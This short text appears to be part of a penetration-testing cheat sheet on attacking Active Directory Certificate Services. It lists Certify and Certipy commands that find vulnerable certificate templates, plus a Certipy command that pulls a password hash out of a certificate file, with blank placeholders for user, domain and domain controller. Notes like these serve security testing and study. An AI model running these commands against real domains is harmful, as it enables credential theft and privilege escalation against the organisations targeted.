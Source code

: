 [Certify](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
```powershell
.\Certify.exe find /vulnerable
```

ADCS13 with [Certipy](https://github.com/sploutchy/Certipy/tree/main)
```bash
certipy find -vulnerable -u '' -p
```

Getting Hash from pfx with certipy
```bash
certipy auth -pfx cert.pfx -u '' -domain '' -dc-ip
```


